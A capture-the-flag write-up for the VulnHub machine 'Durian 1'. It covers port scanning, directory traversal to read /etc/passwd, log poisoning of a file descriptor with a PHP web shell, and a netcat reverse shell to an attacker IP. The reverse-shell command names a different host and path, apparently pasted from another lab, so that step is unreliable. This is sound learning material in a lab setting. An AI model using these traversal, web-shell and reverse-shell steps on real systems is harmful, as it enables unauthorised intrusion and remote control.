

# Durian 1

Created: October 14, 2025 8:32 AM

---

# 🧠 VulnHub Writeup – [Durian 1]

- 📅 Date: [14/10/2025]
- **Name**: [Durian 1]
- 💻 IP: [192.168.100.35]
- 🎯 Difficulty: [Easy]
- 🛠️ Operating System: [Linux]
- 🔑 User: [flag]
- 🔐 Root/Admin: [SunCSR_Team.af6d45da1f1181347b9e2139f23c6a5b]

---

## 🔍 1. Enumeration Phase

### Basic Nmap Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.100.35 -oG allPorts

# -p- --> scan 65535 ports
# filter for opened ports
# -sS --> Silent scan (SYN Connect)
# --min-rate 5000 --> high speed scan
# -vvv --> Verbose: Display output of the scan process
# n --> No DNS resolution
# -Pn --> Skip host discovery (treat all hosts as online)

#Opened ports: 22, 80, 7080, 8088 
```

```bash
nmap -sCV -p  22,80,7080,8088 192.168.100.35 -oN targeted

# -sCV --> Execute enumeration scripts and extract service versions
# -p --> Apply scan on the following ports
# -oN --> Export scan as normal format
```

### Directory Listing with Gobuster (Fuzzing)

```bash
gobuster dir -u http://192.168.100.35/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200

# dir --> directory listing mode
# -u --> URL 
# -w --> Define wordlist for the fuzzing. Wordlist used: https://github.com/danielmiessler/SecLists.git
# -t --> Threads (fuzzing velocity) 
```

By executing the previous fuzzing we discover cgi-data directory that contains a vulnerable php file named “getImage.php”.




The PHP file includes a `file` parameter in its code that is not properly validated, resulting in a directory traversal vulnerability. For example, adding `?file=/etc/passwd` to the url enables a potential attacker to see the `/etc/passwd` file content. 


### Log poisoning

The directory traversal vulnerability enables the attacker to perform log poisoning by abusing a file descriptor (fd) located at the `/proc/self/fd/` directory.  

Systems have many file descriptors. To validate which file descriptor can be used to do the log poisoning, burpsuite can be used in its intruder mode. 


In the previous image, we insert a numbers payload to the URL. This helps enumerate file descriptors. When the attack is performed the results reflect different responses that vary in lenght. Commonly, the largest ones are most interesting results to review. 


In this case, payload number 8 logs requests sent by users. When any user does a GET request to the http server, this fd records the request itself and the user-agent. For example: 


As a result, the log can be poisoned by inserting malicious php code on the user agent of any request made to the http server. Specifically, a web shell can be inserted. 


If we read file descriptor number 8 again we see that php code has been interpreted by the web application because strings are not shown in the user agent section. 


As a result, we can make perform RCE and establish a reverse shell with the victim by abusing the cmd file that we just inserted. 


Now we do a tty treatment to navigate freely through the reverse shell.

```bash
nc -nvlp 443

view-source:http://192.168.100.28/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc+-e+/bin/bash+192.168.100.23+443

#CONNECTION RECEIVED!

#tty treatment
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty rows 49 columns 184 #Adjust terminal size 

```

## Privilege Escalation

By searching for capabilities on the system using the `getcap` command, a capability on the gdb binary is discovered. 


If we search this binary on gtofbins ([https://gtfobins.github.io/gtfobins/gdb/](https://gtfobins.github.io/gtfobins/gdb/)) we can see that a backdoor to gain privileged access by manipulating our own UID can be performed. 


---

## Additional Information

1. Directory traversal —> A web vulnerabilty that allows attackers  to access files outside the vulnerable document root directory (in this case, the `getImage.php` file). 
2. Log poisoning —> Injecting malicious code on logs that is included later via directory traversal or lfi. In this case, we used the `file` parameter to read a file descriptor where we had injected malicious code. When the code inside `getImage.php` file *included*  the log, the php interpreter took it as legitimate code and executed it. 
3. RCE —> Refers to Remote Code Execution. By inserting the `cmd` parameter through malicious code, we enabled the web application to execute commands remotely. Later this was used to establish a reverse shell.

---
